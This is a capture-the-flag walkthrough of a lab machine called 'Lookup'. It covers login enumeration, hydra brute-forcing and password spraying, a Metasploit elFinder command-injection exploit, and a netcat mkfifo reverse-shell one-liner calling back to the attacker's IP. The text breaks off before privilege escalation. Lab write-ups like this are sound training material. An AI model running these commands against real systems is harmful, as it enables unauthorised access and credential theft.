 # Lookup
(flags are at the end of the writeup)

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothig. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried looking with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and then used then from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />



- What is the user flag?
- What is the root flag?
